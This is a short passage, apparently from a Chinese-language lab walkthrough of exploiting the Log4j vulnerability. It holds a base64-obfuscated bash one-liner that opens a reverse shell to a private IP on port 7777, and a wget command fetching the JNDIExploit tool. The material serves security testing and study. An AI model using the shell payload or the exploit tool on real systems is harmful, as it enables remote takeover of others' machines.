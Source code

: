 ![1742750573594](image/record/1742750573594.png)
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}
```

#### [3] 评估log4j漏洞效果

**下载利用工具 :**
```bash
wget https://github.com/Mr-xn/JNDIExploit/release/download/v1.2/JNDIExploit.v1.2.zip
```
![1741599510999](image/record/1741599510999.png)
